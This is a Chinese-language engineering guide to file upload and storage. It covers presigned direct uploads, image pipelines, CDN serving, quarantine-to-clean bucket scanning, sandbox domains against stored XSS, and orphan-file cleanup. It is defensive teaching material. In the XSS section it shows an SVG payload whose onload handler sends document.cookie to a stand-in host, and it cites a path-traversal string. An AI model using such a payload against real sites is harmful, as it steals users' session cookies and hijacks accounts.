





# 文件上传与存储

## 这是什么？

文件上传和存储是你的应用处理用户发来的文件的方式——头像、文档、视频、Excel、CSV，什么都有。覆盖整个流程：用户选择文件，上传，处理（裁剪、扫描、转码），存储，需要时再提供下载。听起来简单，但大规模下涉及 CDN、对象存储、访问控制、病毒扫描和成本管理。

## 为什么要懂？

几乎每个应用最终都需要文件上传。头像、文档附件、图库、CSV 导入、视频上传——到处都是。简单粗暴的做法（存到服务器硬盘）在开发时 OK，生产环境就崩了。文件吃磁盘、拖慢服务器、成为单点故障。理解业务和基础设施模式帮你搭建可扩展且不烧钱的方案。

## 业务流程

### 简单上传流程

1. 用户通过 `<input type="file">` 或拖放选择文件
2. 客户端校验：文件类型允许吗？大小在限制内吗？
3. 文件以 `multipart/form-data` 发送到服务器
4. 服务端再次校验：文件类型、大小、内容（不信任客户端）
5. 服务端把文件存到对象存储（S3、OSS、Azure Blob）
6. 服务端在数据库记录文件 URL/路径
7. 文件通过 CDN 提供给用户

### 直传（预签名 URL）

大文件不要经过你的服务器：

1. 客户端向你的服务端请求上传 URL
2. 服务端从存储服务商生成预签名 URL（S3 预签名 URL）
3. 客户端用预签名 URL 直接上传到存储服务
4. 存储服务通知你的服务器上传完成（或客户端确认）
5. 服务端记录文件元数据

**为什么重要：** 你的服务器完全不碰文件字节。无内存压力，无带宽成本，无上传超时问题。

### 图片处理

1. 用户上传一张照片（可能是手机拍的 10MB JPEG）
2. 系统创建多个版本：缩略图（100x100）、中图（800x600）、大图（1920x1080）
3. 格式转换：JPEG → WebP（更小、质量更好）
4. 剥离元数据：移除 EXIF 数据（可能包含 GPS 坐标）
5. 所有版本存到对象存储，URL 记录在数据库
6. 前端根据上下文请求合适的尺寸

### 文件服务

1. 文件 URL 通常是 CDN URL（如 `cdn.yourapp.com/images/abc123.webp`）
2. CDN 把文件缓存到全球的边缘节点
3. 首次请求：CDN 从源站获取。之后的请求：直接从缓存提供
4. 缓存头控制文件缓存多久
5. 私有文件：用带过期时间的签名 URL

## 常见术语

| 术语             | 解释                                                                              |
| ---------------- | --------------------------------------------------------------------------------- |
| **对象存储**     | 云端文件存储（S3、OSS、Azure Blob）。便宜、持久、可扩展                           |
| **S3**           | 亚马逊简单存储服务——最流行的对象存储。"S3 兼容"API 已成行业标准                   |
| **Bucket（桶）** | 对象存储中的容器。像顶级文件夹。可以为 `uploads`、`avatars`、`documents` 分别建桶 |
| **预签名 URL**   | 临时 URL，授权上传或下载特定文件。过期后失效                                      |
| **CDN**          | 内容分发网络——把文件分发到全球各地。用户从最近的服务器下载                        |
| **MIME 类型**    | 文件类型标识（如 `image/jpeg`、`application/pdf`）。用于校验和服务                |
| **分片上传**     | 大文件分块上传。失败后可以断点续传                                                |
| **EXIF 数据**    | 嵌入图片的元数据（相机型号、GPS 位置、时间戳）。隐私风险                          |
| **转码**         | 文件格式转换（视频：MP4 → HLS，图片：PNG → WebP）                                 |
| **生命周期策略**             | 自动把文件在存储层级间迁移或删除旧文件的规则                                                        |
| **存储等级**                 | 不同价格/性能的层级（标准、低频访问、归档）                                                         |
| **隔离桶（Quarantine Bucket）**| 禁止公开读取的临时接收桶，新上传文件必须通过病毒扫描、文件头校验和脱敏后才能晋升到正式桶            |
| **魔数（Magic Bytes）**      | 文件头部的固定特征字节（如 JPEG 的 `FF D8 FF`、PNG 的 `89 50 4E 47`），用于识别真实二进制格式       |
| **Content-Disposition**      | 控制浏览器下载（`attachment`）还是直接内联渲染（`inline`）的 HTTP 响应头，防文件型 XSS 的核心防线   |
| **沙箱域名（Sandbox Domain）**| 专门用于托管用户上传文件的无 Cookie 独立根域名（如 `*-usercontent.com`），与主站隔离同源策略        |
| **感知哈希（pHash/PhotoDNA）**| 基于图像视觉特征生成的指纹，即使图片经过缩放或重压缩也能比对命中违规/暴恐/CSAM 内容                 |

## 常见模式

### 模式一：服务端上传

文件经过你的服务器到存储。简单，适合小文件。



**适用场景：** 小文件（头像、缩略图），需要在存储前处理文件。

**取舍：** 服务器成为瓶颈。大量上传时内存飙升。

### 模式二：直传（预签名 URL）

客户端直接上传到存储。你的服务器只负责生成上传 URL。



**适用场景：** 大文件、视频上传、任何高流量应用。

**取舍：** 客户端代码稍微复杂。需要处理上传确认。

### 模式三：图片处理流水线

上传触发处理流水线，生成各种变体。



**适用场景：** 图片量大的应用（社交媒体、电商、房产列表）。

**取舍：** 异步处理意味着变体不会立即可用。处理完成前显示占位图。

### 模式四：按需变换

图片在请求时根据 URL 参数实时变换。不预生成变体。

```
https://cdn.example.com/images/photo.jpg?w=200&h=200&fit=crop
```

**适用场景：** 需要很多尺寸变体或事先不知道尺寸时。Cloudinary、imgix、Cloudflare Image Resizing。

**取舍：** 首次请求慢（实时变换）。CDN 缓存后续请求。

## 踩坑提醒

- **永远不信文件扩展名**：`.jpg` 文件可能实际上是可执行文件。通过读取文件头（Magic Bytes）来校验 MIME 类型，不能只看扩展名。
- **文件大小限制**：在每个层级设限——客户端校验、服务端中间件、存储策略。漏了限制就等着有人上传 10GB 文件崩掉你的服务器。
- **文件名清洗**：用户文件名可能包含特殊字符、空格、Unicode，甚至路径穿越攻击（`../../etc/passwd`）。用 UUID 生成文件名，原始文件名作为元数据保存。
- **病毒扫描**：用户上传的文档在提供下载前要做杀毒扫描。ClamAV 是常见的自托管方案。
- **存储成本会累积**：100 万用户每人上传 5MB = 5TB。按 S3 标准存储价格约 ¥1/GB/月，就是 ¥5000/月。加上数据传输费。用生命周期策略把旧文件移到更便宜的层级。
- **孤儿文件**：用户上传了文件但没保存表单就离开了。文件在存储里但没有任何引用。定期跑清理任务。
- **私有文件**：不是所有文件都应该公开。医疗记录、财务文件、私人照片需要访问控制。用短期签名 URL。
- **断点续传**：大文件在不稳定网络上传时，支持断点续传。TUS 协议是这方面的标准。

## 行业实战经验与非显而易见的最佳实践

### 1. 隔离桶到洁净桶的晋升流水线（Quarantine-to-Clean Bucket Promotion）

当你使用预签名 URL（Presigned URL）让客户端直传对象存储时，文件字节流直接从用户浏览器飞向 S3/OSS，完全绕过了你的应用服务器。如果预签名 URL 直接指向挂了 CDN 的公开读取 Bucket，攻击者就可以申请一个 `avatar.jpg` 的上传链接，实际上传带宏病毒的发票、木马程序或违法违禁图片，并在异步审核任务启动之前，直接利用你的官方高信誉域名对外分发恶意文件。

**生产环境最佳实践：双桶物理隔离架构（Quarantine → Clean）**

永远不要让客户端直传进入任何可被公开读取或 CDN 回源的 Bucket。必须将存储拆分为**隔离接收桶（Quarantine Bucket）**（仅允许预签名 PUT 写入，彻底关闭公开/CDN 读取权限，配置 24 小时自动删除生命周期）和**洁净生产桶（Clean Bucket）**（仅允许内部消毒 Worker 写入，对外通过 CDN 或签名 URL 提供读取）。



在**安全消毒 Worker** 内部，每个文件必须通过四道关卡才能晋升到洁净桶：
1. **文件头魔数（Magic Bytes）与畸形炸弹校验**：忽略客户端声称的扩展名和 `Content-Type`，直接读取文件头前几个字节（如 JPEG 的 `FF D8 FF`、PDF 的 `%PDF-`），并拦截"解压炸弹"（如 40KB 解压出 10GB 的 Zip Bomb，或像素高达 100,000×100,000 导致图像处理进程 OOM 的巨幅图片）。
2. **异步恶意软件查杀**：在任何内部客服或外部用户能下载该文件前，通过 ClamAV、AWS GuardDuty Malware Protection 或云安全网关完成流式查杀。
3. **图像像素重编码与 EXIF GPS 彻底剥离**：手机拍摄的原图普遍在 EXIF 中嵌有精确到门牌号的 `GPSLatitude`/`GPSLongitude`、拍摄时间及设备序列号。通过 `libvips` / `sharp` 对图像重新编码，不仅能抹除全部隐私元数据，还能彻底破坏隐写术或拼接在图片尾部的多态恶意载荷（Polyglot Payload）。
4. **内容安全与感知哈希（PhotoDNA / PDQ）比对**：计算 SHA-256 及视觉感知哈希，拦截违禁内容后，才将文件复制到**洁净桶**并将数据库状态从 `SCANNING` 更新为 `READY`。

### 2. 同源 SVG / HTML 上传导致的存储型 XSS 与沙箱域名隔离

Web 安全中最具毁灭性的漏洞之一，就是把用户上传的文件放在与主站相同的域名（或共享父级 Cookie 的子域名）下直接提供访问——例如主站是 `https://app.acme.com`，而用户上传的文件通过 `https://app.acme.com/uploads/chart.svg` 访问。

**为什么上传 SVG 和 HTML 等于存储型 XSS 炸弹？**
`.svg` 本质上是合法的 XML 文档，原生支持内嵌 `<script>` 标签和 `onload` 事件处理器：
```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="fetch('https://evil.example/steal?c=' + document.cookie)">
  <circle cx="50" cy="50" r="40"/>
</svg>
```
只要攻击者诱导受害者点击 `https://app.acme.com/uploads/chart.svg` 链接（使浏览器在顶层窗口打开该 SVG，而不是在 `` 标签中引用），浏览器就会在 **`app.acme.com` 的同源上下文下执行其中的 JavaScript**，直接窃取 `localStorage`、Session Cookie，或以受害者身份调用后台接口！

**生产环境最佳实践：纵深防御文件分发**
1. **使用无 Cookie 的独立沙箱根域名（Sandbox Domain）**：所有用户上传内容必须通过完全独立的根域名（eTLD+1）分发——正如 GitHub 使用 `githubusercontent.com`、Google 使用 `googleusercontent.com`、飞书/Figma 使用各自的 `usercontent` 域名。由于根域名不同，浏览器绝不会携带主站 Cookie，且受同源策略（SOP）严格隔离。
2. **对高风险类型强制返回 `Content-Disposition: attachment`**：仅允许光栅化安全位图（`image/jpeg`、`image/png`、`image/webp`、`image/avif`）使用 `inline` 方式在浏览器内预览。对于 SVG、HTML、PDF、XML、CSV 等所有其他文件，强制设置响应头 `Content-Disposition: attachment; filename="..."`，迫使浏览器直接下载到本地磁盘而非在标签页中渲染执行。
3. **加固安全响应头**：在 CDN 和对象存储层统一注入 `X-Content-Type-Options: nosniff`（禁止浏览器猜测文件类型）和 `Content-Security-Policy: default-src 'none'; sandbox`（即使被内联打开也完全禁止脚本执行）。

### 3. 孤儿文件垃圾回收（`PENDING` → `ATTACHED` 两阶段状态机）

在现代富文本编辑器（Notion、飞书文档、Jira 评论区）或多步表单中，用户经常把 5 张截图拖进输入框（此时客户端已通过预签名 URL 完成直传并拿到预览图），然后**没有点击"提交"就直接关掉了浏览器标签页**；或者点击提交时因表单校验失败导致事务回滚。

**成本与合规的双重陷阱：** 如果不追踪每个上传文件的引用生命周期，这些无主"孤儿文件"会在对象存储中永久堆积（悄无声息地吞噬数 TB 存储费用），并且在用户注销账号行使 GDPR/个保法"删除权"时，因为数据库业务表里根本没有关联外键而成为无法清理的合规盲区。反过来，你也不能粗暴地用定时任务删掉所有"上传超过 5 分钟仍未关联业务表"的文件，因为用户可能正在撰写一篇长文，编辑了 2 个小时才点"发布"。

**生产环境最佳实践：两阶段上传账本 + 对象存储标签生命周期规则**



1. **阶段一——签发 URL 前预登记 `PENDING` 记录**：客户端请求预签名 URL 时，服务端先在 `upload_blobs` 表插入一条记录（`status = 'PENDING'`，`expires_at = NOW() + 24h`），并在预签名 PUT 请求中强制要求携带对象标签 `upload_status=pending`。
2. **阶段二——业务提交时原子晋升为 `ATTACHED`**：当用户真正点击"发布评论/保存商品"时，在同一个数据库事务中写入业务表并将对应 `upload_blobs` 状态更新为 `ATTACHED`（绑定 `parent_type` 和 `parent_id`），随后异步移除对象存储上的 `upload_status=pending` 标签。
3. **底层存储原生自动回收**：在 S3/OSS 上配置原生的**按标签生命周期规则（Tag-based Lifecycle Rule）**——任何带有 `upload_status=pending` 标签且存活满 24 小时的对象，由云厂商底层自动物理删除，无需应用层遍历扫描数百万个对象，同时完美兼容长达数小时的富文本编辑会话。

## 速查表

| 文件类型          | 最佳方案                      |
| ----------------- | ----------------------------- |
| 小图片（<5MB）    | 服务端上传 + 后台处理         |
| 大图片/视频       | 直传（预签名 URL） + 异步处理 |
| 文档（PDF、DOCX） | 服务端上传 + 杀毒扫描         |
| 批量 CSV 导入     | 直传 + 后台任务处理           |
| 用户头像          | 服务端上传 + 按需缩放         |

| 存储等级           | 适用场景           | 成本参考（以 S3 为例） |
| ------------------ | ------------------ | ---------------------- |
| 标准存储（Standard）| 高频访问的热点文件 | ~$0.023/GB/月          |
| 低频访问（IA）     | 备份、历史归档附件 | ~$0.0125/GB/月         |
| 归档存储（Glacier）| 法规留存、冷数据   | ~$0.004/GB/月          |

| 生产环境典型风险与故障             | 根本原因                                         | 纵深防御架构方案                                                      |
| ---------------------------------- | ------------------------------------------------ | --------------------------------------------------------------------- |
| 攻击者借你的官方 CDN 分发木马文件  | 预签名 URL 直接写入公开可读的生产 Bucket         | 隔离桶接收 → 魔数校验 + 病毒扫描 + 重编码 → 晋升至洁净桶              |
| 用户上传 `.svg` / `.html` 触发 XSS | 用户文件与主站共用同源域名（如 `app.acme.com`）  | 独立无 Cookie 沙箱域名（`*-usercontent.com`）+ `Content-Disposition: attachment` |
| 用户上传生活照泄露家庭住址坐标     | 手机原图 EXIF 中保留了 GPS 经纬度与设备信息      | 使用 `sharp` / `libvips` 重编码图像并默认抹除全部 EXIF/XMP 元数据     |
| 富文本放弃编辑产生数 TB 孤儿文件   | 预签名直传在表单提交前已完成，缺乏引用状态追踪   | `upload_blobs` 表 `PENDING` → `ATTACHED` 状态机 + 24h 标签生命周期清理|

